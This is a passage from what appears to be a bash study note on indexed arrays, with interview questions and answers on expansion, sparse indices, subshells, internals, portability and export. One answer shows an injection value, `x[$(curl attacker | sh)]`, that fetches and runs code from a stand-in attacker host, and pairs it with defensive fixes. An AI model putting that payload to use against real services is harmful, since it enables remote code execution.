The trade-off is safety against speed and structure: an array is the only bash structure that holds arbitrary strings without quoting bugs, but it holds only strings, it cannot be nested, exported or returned, and random access walks a linked list, so a lookup-heavy loop over 160000 elements took about 10 s in bash 5.3 where a sequential pass took about 0.3 s (measured by hand, twice).
Move to awk when the job is a single pass over records with fields, and to Python, Go or another real language when the data is nested, typed, large, randomly accessed, or arrives from an untrusted source that would otherwise feed array subscripts.
In code review, the three questions that catch most array bugs are: is every whole-array expansion `"${a[@]}"`, is every index from data validated, and does any loop assume the indices are dense.

## Interview questions

> [!question] L5: What is the difference between `"${a[@]}"`, `"${a[*]}"` and `${a[@]}`?
>
> > [!success]- Answer
> > `"${a[@]}"` expands to one field per set element and to no fields when the array is empty.
> > `"${a[*]}"` is a single field with the elements joined by the first character of `IFS` (no separator when `IFS` is null, a space when it is unset).
> > Unquoted, both forms produce the elements and then field split and glob them, so an element `a b` becomes two arguments and `*` becomes file names.
> > They mirror `"$@"`, `"$*"` and `$@` for the positional parameters, and bash expands them with the same helpers.
> >
> > Follow-up: What does `s="${a[@]}"` store in bash, and is it the same in zsh?

> [!question] L5: Predict the output: `a=(x y z); unset 'a[1]'; a+=(w); echo "${#a[@]} ${!a[@]} ${a[2]}"`
>
> > [!success]- Answer
> > It prints `3 0 2 3 z`.
> > The unset leaves indices 0 and 2, so the count is 2 before the append.
> > `+=` appends after the highest index, 2, so `w` lands at index 3, not at the free index 1.
> > The count becomes 3, the indices are `0 2 3`, and `${a[2]}` is still `z`.
> >
> > Follow-up: How would you renumber the array so that the indices are 0, 1, 2 again?

> [!question] L5: Why must you write `unset 'a[0]'` with quotes?
>
> > [!success]- Answer
> > The argument of `unset` is an ordinary word, and `a[0]` is a valid glob containing a bracket expression.
> > If the current directory has a file named `a0`, the word expands to `a0` and `unset` removes that variable instead of the array element.
> > Without such a file the glob does not match and the literal word is passed, so the bug appears only in some directories.
> > Quoting makes the argument literal regardless of the working directory.
> >
> > Follow-up: Which other builtins take a subscripted name as an argument and have the same problem?

> [!question] L6: Debug this script: it prints the number of matching lines as 0 even though `grep` finds several.
>
> ```bash
> set -u
> grep ERROR app.log | while read -r line; do hits+=("$line"); done
> echo "${#hits[@]}"
> ```
>
> > [!success]- Answer
> > Every stage of a bash pipeline runs in a subshell, so `hits` is filled in a child process that exits at the end of the loop.
> > The parent never assigned `hits`, so `${#hits[@]}` is 0 (and with `set -u`, a later `"${hits[@]}"` would fail on bash before 4.4).
> > Fix it with `mapfile -t hits < <(grep ERROR app.log)`, or with `while ...; done < <(grep ERROR app.log)`, or with `shopt -s lastpipe` in a non-interactive bash 4.2 or later.
> > The same code happens to work in ksh93 and native zsh, which run the last stage in the current shell.
> >
> > Follow-up: Why does `lastpipe` have no effect in an interactive shell with job control on?

> [!question] L6: How does bash store an indexed array, and what does that imply for performance?
>
> > [!success]- Answer
> > The default build stores a sorted, circular, doubly linked list of elements, each carrying its own `intmax_t` index, with a head sentinel, `max_index`, `num_elements`, and a `lastref` pointer to the element touched last.
> > Appending past `max_index` and prepending below the first index are O(1), and an access near the last one walks a few links from `lastref`.
> > A random access walks from the head or from `lastref`, which is O(n), so n random accesses cost O(n^2): measured by hand, 160000 random reads took about 10 s against 0.3 s for a sequential pass on bash 5.3.
> > `${#a[@]}` is a stored count and O(1); bash 5.2 added an optional vector implementation at configure time that trades memory for access speed.
> >
> > Follow-up: When would you replace an array lookup table in bash with an associative array, and when with awk?

> [!question] L6: Why does `${a[-1]}` work on macOS `/bin/sh` in some places and fail in others?
>
> > [!success]- Answer
> > macOS `/bin/sh` is bash 3.2.57 in POSIX mode, and negative subscripts arrived in bash 4.2 for reading and 4.3 for assignment and unset.
> > In 3.2 `${a[-1]}` is "bad array subscript" and `a[-1]=Z` aborts the shell (status 127 in POSIX mode, 1 otherwise), while the same code works with a Homebrew or Linux bash.
> > The behavior therefore depends on which bash the shebang or the caller picks, not on the script.
> > Portable code uses `${a[${#a[@]}-1]}` on dense arrays, or a loop over `"${!a[@]}"` keeping the last index for sparse ones.
> >
> > Follow-up: What else in an array-heavy script breaks on bash 3.2?

> [!question] L7+: A service builds a lookup table `limits=(...)` and reads `"${limits[$tier]}"`, where `tier` comes from a request header: what is the risk, and how do you fix it across the fleet?
>
> > [!success]- Answer
> > The subscript is expanded and then evaluated as arithmetic, and the evaluator expands the subscript of any array reference it meets, so a header value such as `x[$(curl attacker | sh)]` runs a command.
> > The lab shows this on every bash from 3.2 to 5.3 and on mksh and ksh93u+ 2012; bash 5.2's subscript change and `array_expand_once` do not cover `${a[$i]}`.
> > The local fix is to validate `tier` with a `case` that admits only canonical decimal digits, bound its length, and check it against the element count before any use, or to map names to values with an associative array, which does not evaluate keys as arithmetic.
> > The fleet fix is a lint rule or code search for array subscripts and arithmetic contexts fed by external data, a shared validated accessor function, and a policy that request-driven logic lives in a language whose indexing is not an evaluator.
> >
> > Follow-up: Which other bash builtins evaluate a subscript taken from their arguments?

> [!question] L7+: Your team's scripts must run on macOS bash 3.2, Debian bash 5.2, and Alpine with only BusyBox, so what is your array policy?
>
> > [!success]- Answer
> > BusyBox ash has no arrays, so any script that must run there is a POSIX sh script and uses `set --` and `"$@"` as its only list, one list per function scope.
> > Scripts that need arrays declare `#!/usr/bin/env bash`, and the policy then has to choose between writing to bash 3.2 (no negative subscripts, no `mapfile`, no namerefs, no `[[ -v a[i] ]]`, and `${a[@]+"${a[@]}"}` under `set -u`) or requiring a newer bash installed on macOS and checking `BASH_VERSINFO` at startup.
> > The test matrix must include bash 3.2, the oldest supported Linux bash, and BusyBox, because the failures are syntax errors or version-gated semantics that a single developer machine never shows.
> > Anything that needs nested data, large random-access tables, or untrusted indices moves to awk or a compiled or interpreted language with real data structures.
> >
> > Follow-up: How would you detect, in CI, a bash-4 array feature slipping into a script meant for 3.2?

> [!question] L7+: Why can't an array be exported, and what did ksh93, mksh and yash do instead?
>
> > [!success]- Answer
> > `execve` takes the environment as a vector of `name=value` strings, so there is no representation for a list of strings under one name.
> > bash skips array variables when it builds the environment (variables.c, unless the commented-out `ARRAY_EXPORT` is enabled) and documents it as a bug.
> > ksh93 and mksh export element 0 as an ordinary variable, and yash exports the elements joined with colons, which loses any element that contains a colon.
> > Passing a list to a child process therefore means serializing it: arguments (`"${a[@]}"`), NUL-separated standard input, or `typeset -p` output that the child evaluates, which is code and must come from a trusted producer.
> >
> > Follow-up: What does `export a` actually do to an array in bash if it does not put it in the environment?

## Related

Prerequisites: [[Bash-POSIX-Mode]], [[Special-Parameters]], [[Arithmetic-Expansion]]

Next: [[Associative-Arrays]]

See also: [[mapfile-and-readarray]], [[Namerefs-and-Dynamic-Scope]], [[Bash-Parameter-Transformations]], [[Field-Splitting-and-IFS]], [[Parameter-Expansion]], [[Pathname-Expansion]], [[The-read-Builtin]], [[Pipelines-and-And-Or-Lists]], [[Subshells-and-the-Execution-Environment]], [[Null-versus-Unset]], [[Command-Injection]], [[The-eval-Builtin]], [[Bash-Version-History]], [[Bash-3-2-on-macOS]], [[Bash-Introspection-Variables]]

## Further reading

- POSIX.1-2024 XCU chapter 2, Shell Command Language: https://pubs.opengroup.org/onlinepubs/9799919799/utilities/V3_chap02.html - defines the positional parameters as the only list and reserves the array extension space.
- POSIX.1-2024 XRAT C.2.6.3: https://pubs.opengroup.org/onlinepubs/9799919799/xrat/V4_xcu_chap01.html - why array subscripts make `$((` ambiguous.
- GNU bash 5.3 source, array.h, array.c, arrayfunc.c and expr.c: https://mirrors.kernel.org/gnu/bash/bash-5.3.tar.gz - the data structure, the negative-index rebase, and the subscript evaluation path.
- Bash Reference Manual 6.7 Arrays, in doc/bashref.texi of the same tarball - the specification of every array form bash supports.
- bash NEWS and CHANGES in the same tarball - the release that introduced each array feature cited here.
- zsh manual 15.2 Array Parameters: https://zsh.sourceforge.io/Doc/Release/Parameters.html - one-based, dense arrays and subscript flags.
- zsh manual 16.2 Options, `KSH_ARRAYS`: https://zsh.sourceforge.io/Doc/Release/Options.html - the switch between zsh and ksh array semantics.
- ksh93u+m sh.1, Arrays: https://raw.githubusercontent.com/ksh93/ksh/dev/src/cmd/ksh93/sh.1 - the original design and its 4194303 index limit.
- mksh(1): https://manpages.debian.org/trixie/mksh/mksh.1.en.html - the 32-bit index range and `read -a` versus `read -A`.
- yash manual, Arrays and the array built-in: https://magicant.github.io/yash/doc/params.html - one-based arrays, colon-joined export, and no element assignment syntax.
- posh sh.h: https://salsa.debian.org/clint/posh/-/raw/master/sh.h - `ARRAYMAX` 1023 inherited from pdksh.
